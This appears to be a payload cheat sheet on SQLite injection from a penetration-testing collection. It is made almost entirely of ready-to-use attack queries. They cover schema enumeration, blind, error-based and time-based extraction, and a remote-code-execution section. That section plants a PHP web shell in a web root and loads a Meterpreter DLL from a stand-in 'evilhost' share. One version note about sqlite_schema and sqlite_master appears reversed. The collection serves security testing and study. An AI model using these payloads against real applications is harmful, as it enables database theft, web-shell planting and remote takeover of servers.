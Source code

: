 # SQLite Injection

> SQLite Injection  is a type of security vulnerability that occurs when an attacker can insert or "inject" malicious SQL code into SQL queries executed by an SQLite database. This vulnerability arises when user inputs are integrated into SQL statements without proper sanitization or parameterization, allowing attackers to manipulate the query logic. Such injections can lead to unauthorized data access, data manipulation, and other severe security issues.

## Summary

* [SQLite Comments](#sqlite-comments)
* [SQLite Enumeration](#sqlite-enumeration)
* [SQLite String](#sqlite-string)
    * [SQLite String Methodology](#sqlite-string-methodology)
* [SQLite Blind](#sqlite-blind)
    * [SQLite Blind Methodology](#sqlite-blind-methodology)
    * [SQLite Blind With Substring Equivalent](#sqlite-blind-with-substring-equivalent)
* [SQlite Error Based](#sqlite-error-based)
* [SQlite Time Based](#sqlite-time-based)
* [SQlite Remote Code Execution](#sqlite-remote-code-execution)
    * [Attach Database](#attach-database)
    * [Load_extension](#load_extension)
* [SQLite File Manipulation](#sqlite-file-manipulation)
    * [SQLite Read File](#sqlite-read-file)
    * [SQLite Write File](#sqlite-write-file)
* [References](#references)

## SQLite Comments

| Description         | Comment |
| ------------------- | ------- |
| Single-Line Comment | `--`    |
| Multi-Line Comment  | `/**/`  |

## SQLite Enumeration

| Description   | SQL Query |
| ------------- | ----------------------------------------- |
| DBMS version  | `select sqlite_version();`                |

## SQLite String

### SQLite String Methodology

| Description             | SQL Query                                 |
| ----------------------- | ----------------------------------------- |
| Extract Database Structure                           | `SELECT sql FROM sqlite_schema` |
| Extract Database Structure (sqlite_version > 3.33.0) | `SELECT sql FROM sqlite_master` |
| Extract Table Name  | `SELECT tbl_name FROM sqlite_master WHERE type='table'` |
| Extract Table Name  | `SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'` |
| Extract Column Name | `SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'` |
| Extract Column Name | `SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');` |
| Extract Column Name | `SELECT MAX(sql) FROM sqlite_master WHERE tbl_name='<TABLE_NAME>'` |
| Extract Column Name | `SELECT name FROM PRAGMA_TABLE_INFO('<TABLE_NAME>')` |

## SQLite Blind

### SQLite Blind Methodology

| Description             | SQL Query                                 |
| ----------------------- | ----------------------------------------- |
| Count Number Of Tables  | `AND (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' ) < number_of_table` |
| Enumerating Table Name  | `AND (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0)=table_name_length_number` |
| Extract Info            | `AND (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) > HEX('some_char')` |
| Extract Info (order by) | `CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) = HEX('some_char') THEN <order_element_1> ELSE <order_element_2> END` |

### SQLite Blind With Substring Equivalent

| Function    | Example                                   |
| ----------- | ----------------------------------------- |
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`  |
| `SUBSTR`    | `SUBSTR('foobar', <START>, <LENGTH>)`     |

## SQlite Error Based

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```

## SQlite Time Based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
AND 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

## SQLite Remote Code Execution

### Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

### Load_extension

:warning: This component is disabled by default.

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

## SQLite File Manipulation

### SQLite Read File

SQLite does not support file I/O operations by default.

### SQLite Write File

```sql
SELECT writefile('/path/to/file', column_name) FROM table_name
```

## References

* [Injecting SQLite database based application - Manish Kishan Tanwar - February 14, 2017](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
* [SQLite Error Based Injection for Enumeration - Rio Asmara Suryadi - February 6, 2021](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
* [SQLite3 Injection Cheat sheet - Nickosaurus Hax - May 31, 2012](https://web.archive.org/web/20131208191957/https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet)
